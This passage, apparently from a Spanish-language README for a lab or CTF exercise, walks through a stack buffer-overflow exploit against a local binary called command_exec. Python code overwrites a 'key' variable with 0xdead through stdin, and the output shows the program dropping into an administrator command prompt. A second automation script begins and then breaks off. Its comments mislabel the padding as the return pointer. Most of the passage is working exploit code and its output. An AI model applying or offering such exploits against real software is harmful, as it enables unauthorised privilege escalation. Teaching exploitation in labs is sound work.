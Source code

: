 ```python
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 5. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["Ruta_Binario"]

# 6. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

# 7. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 8. Esperamos a que termine el proceso.
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```

Lo ejecutamos:
```bash
python3 exploit.py
```

Nos retorna lo siguiente:
```bash
Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando:
```

En la documentacion usaremos otro exploit en python que nos permite automatizar el envio de comandos **( commandExploit.py )**:
**Nota** En la variable: **program** colocamos la ruta exacta en donde tenemos el binario.
```bash
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
```